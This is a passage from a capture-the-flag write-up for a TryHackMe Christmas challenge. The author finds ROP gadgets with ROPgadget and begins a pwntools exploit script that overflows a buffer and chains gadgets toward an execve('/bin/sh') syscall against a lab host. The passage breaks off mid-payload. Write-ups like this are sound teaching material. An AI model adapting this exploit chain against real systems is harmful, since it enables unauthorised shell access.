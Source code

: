 I used **ROPgadget** to do a quick search for the instruction.

![bin shell](/assets/images/THM/2020-08-15-hc0n-christmas-ctf/39.png)

![syscall](/assets/images/THM/2020-08-15-hc0n-christmas-ctf/40.png)

![pops](/assets/images/THM/2020-08-15-hc0n-christmas-ctf/41.png)

With help from Robin and a little bit of knowledge on python ssh. I drafted the following script.

```python
from pwn import *
import sys

HOST = "10.10.21.159"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = "A"*56
	payload += p64(pop_rax)
	payload += p64(59) # 59 for cveexe
	payload += p64(pop_rdi)
	payload += p64(bin_sh)
	payload += p64(pop_rsi)
	payload += p64(0x0)
	payload += p64(pop_rdx)
```